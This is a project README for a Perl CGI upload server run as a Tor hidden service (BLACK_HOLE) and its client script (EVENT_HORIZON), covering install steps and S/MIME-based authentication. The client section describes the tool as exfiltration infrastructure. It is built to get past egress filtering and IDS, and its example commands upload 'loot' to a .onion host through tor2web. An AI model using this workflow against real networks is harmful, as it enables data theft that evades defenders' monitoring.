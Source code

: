 # BLACK_HOLE

Is a perl cgi file upload web app that is built to function easily with 
curl and the use of html forms is not required or needed. It is made 
to be used as a TOR hidden service.

The difference of this cgi upload app from others is that 
it uses OpenSSL public key encryption for authentication. The 
purchase of a cert from a CA is not needed or recommened as those 
orginizations personal regard for you is dubious.

Since these certs are not used for establishing SSL sessions only for
file encryption. It is best in my opinion to create the keypair you need 
and only give out copies of the public key to the indivduals you 
personaly trust.

And by give I mean hand it to them, DONT email.

## Installing
The install process will get lighttpd through apt and configure it then 
place the cgi in the correct location.

You will also be prompted to input the authentication passphrase.

Run as root

```
root@null:~/black-hole# ./install-bh.sh
```
The private key is required to be in the directory /var/cp-data/auth/
for this cgi to function.


### Explanation

A breakdown of the cgi will follow but it still does not beat reading
the Perl cgi itself. Plus eventhough it's Perl I avoided using obscure 
code and kept it simple so that a sysadmin that doesn't program should 
be able to break it down after some reading.

To understand how the authentication is performed, I first have to point
out the folders in use by this cgi.

NOTE: These will be generated by the installer, you will be 
prompted for the passphrase.

The required folders are placed in /var/. 

```
         /var/cp-data/
                 └── auth/
                       ├── pphrase
                       └── private.pem
```

The owner for cp-data/ and it's subdirectories is "www-data".

cp-data/ is the main folder which will contain the uploaded data. The 
sub folder auth/ MUST contain the private key along with a passphrase
or a hash of a passphrase which is interpreted by the cgi as a string
to see if it matches with an authentication parameter posted to it.

keep this in mind.

The cgi has three parameters that need to be filled and each need to be 
processed successfully otherwise the cgi will exit. They are proccesed 
in a sequential manner.

NOTE: for those that do not wish to craft your own url requestes 
and wish to use a more automated method, see EVENT_HORIZON below.


## FIRST parameter
The first parameter is the plain-text or hashed passphrase that is 
encrypted by the corrisponding OpenSSL public key as any SMIME type with
public key encryption.

### OpenSSL smime data, example:

```
MIME-Version: 1.0
Content-Disposition: attachment; filename="smime.p7m"
Content-Type: application/x-pkcs7-mime; smime-type=enveloped-data; name="smime.p7m"
Content-Transfer-Encoding: base64

MIIBxgYJKoZIhvcNAQcDoIIBtzCCAbMCAQAxggFuMIIBagIBADBSMEUxCzAJBgNV
BAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEwHwYDVQQKDBhJbnRlcm5ldCBX
aWRnaXRzIFB0eSBMdGQCCQDtan1KLnkXHjANBgkqhkiG9w0BAQEFAASCAQAH6f3L
VkTcrGI+oEwIm17wVW1XQTyjd4kxnFTGbc29dPsnW+bymAkzc0Xq9y2hv/+Mdd/i
QHW8m9Sry9jYXLO5mKp2LAEy4q3x6hM5XomV8elgm7ZNriVdWAYztVQ01I+3RnOo
5vqSy3iCfJ4/ecs5/RyE+JLG7269389NTMDigQOY/XqtFOB8dbeQolTanJev6Nxt
cvwapfxFGIs85QIFlQp9c2VP6KCFMk7h4Hyv03pJgWSR2hg7CDjzOfdMsi1WQ92P
TEYIi9n26XXiCUTMLCY8RqJsWlFvhyhW8PXXQy2kC7fn/I+ukcf+qtieEzGVCIOS
gWHEt5k6uWpt43pNMDwGCSqGSIb3DQEHATAdBglghkgBZQMEASoEEPxDoqLGhINJ
ZhF1cyVM0XyAEBLJ3nT17dVtx/E+k3lEw/8=
```

For this parameter to be completed successfully the cgi would have to 
decrypt the SMIME data with the private key and extract the 
passphrase/hash and match this to the passphrase/hash in the 
cp-data/auth/ folder. 


## SECOND parameter
The second parameter contains a one time use random key that is 
encrypted in the same manner as the first parameter(SMIME/AES). This 
one time use passphrase will be used to encrypt/decrypt symmenticly 
the data that is to be uploaded.

For this parameter to be completed successfully the cgi would have to
be able to decrypt this SMIME data with the privated key. The decrypted
passphrase is stored in the same directory as the data that is uploaded,
both share the same time stamp.


## THIRD parameter 
The third parameter will contain the encryped data to be uploaded.

This cgi was made to function in a environment without SSL/TLS session
encryption.



# EVENT_HORIZON

A client for one that wishes to upload to BLACK_HOLE. It performs 
the neccesary encryption on the files to be uploaded, then uses curl along 
with OpenSSL and the public key to generate a url post request that 
contains the three required parameters.

The trick is that on top of directly uploading to the cgi over the normal 
Internet. It also has the option to use proxies that serve as hidden service 
gateways such as tor2web. The idea behind it is that the LAN this client may 
be connecting from may have egress filtering rules (IDS/IDPS) that may interfere 
with tor traffic. So this manages to still use tor by first connecting to one 
of these proxies using regular HTTPS that then forward it to your hidden service 
over tor. 

The temporary password for symmetric encryption is generated with 
/dev/urandom and piped into a variable.

```
 TPASS=$(< /dev/urandom tr -dc _A-Z-a-z-0-9 | head -c 30 | base64)
```

Options avaliable by event-horizon client.
```

options:
   -k   location of the public key in pem format for use in encryption
   -t   use tor2web to use exfil hosted on hidden service (yes/no)
   -a   trusted passphrase on the server hosting the cgi perl file
   -d   location of the data file you wish to upload
   -u   full url to the perl cgi upload app, if hidden service place .onion url

usage examples:

without tor:
./event-horizon.sh -k public.pem -a pphrase -t no -d loot -u some_domain.com

using tor tor2web proxies:
./event-horizon.sh -k public.pem -a pphrase -t yes -d loot -u xaede7oiftahtz.onion

```


xor-function @
info@nightowlconsulting.com
